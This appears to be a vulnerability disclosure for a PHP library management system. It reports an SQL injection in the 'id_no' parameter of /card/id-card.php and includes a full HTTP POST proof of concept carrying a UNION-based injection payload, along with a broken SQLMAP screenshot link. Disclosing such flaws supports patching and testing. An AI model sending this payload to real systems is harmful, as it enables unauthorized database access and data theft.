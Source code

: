 # Library Management System with QR code Attendance and Auto Generate Library Card - SQL injections



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html





### /card/id-card.php

> `id_no`Parameters have SQL injection

**SQL injection POC**

```
POST /LMS/card/id-card.php HTTP/1.1
Host: 172.20.10.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 112
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=8l03mutpmr44pg0gv96afbujmn
Origin: http://172.20.10.14
Referer: http://172.20.10.14/LMS/card/id-card.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

id_no=' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b707171,0x686a467041767a434e5574435a446348437562755059707141736f7047694178686e787163596d6e,0x717a6a7a71),NULL#&search=
```

**SQLMAP Test**

![image-20220804234643404](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220804234643404.png)

















